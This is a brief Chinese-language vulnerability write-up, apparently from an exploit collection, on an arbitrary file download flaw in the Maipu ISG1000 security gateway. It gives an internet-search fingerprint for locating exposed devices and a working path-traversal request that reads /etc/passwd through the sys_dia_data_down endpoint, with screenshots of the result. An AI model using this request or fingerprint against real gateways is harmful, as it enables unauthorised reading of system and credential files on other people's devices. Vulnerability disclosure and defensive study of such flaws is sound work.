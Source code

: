 # 迈普 ISG1000安全网关 sys_dia_data_down 任意文件下载漏洞

## 漏洞描述

迈普 ISG1000安全网关 存在任意文件下载漏洞，攻击者通过漏洞可以获取服务器任意文件

## 漏洞影响

<a-checkbox checked>迈普 ISG1000安全网关</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="迈普通信技术股份有限公司"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210604151806596.png)



请求的 POC 为



```plain
/webui/?g=sys_dia_data_down&file_name=../etc/passwd
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210604152228481.png)



若有收获，就点个赞吧
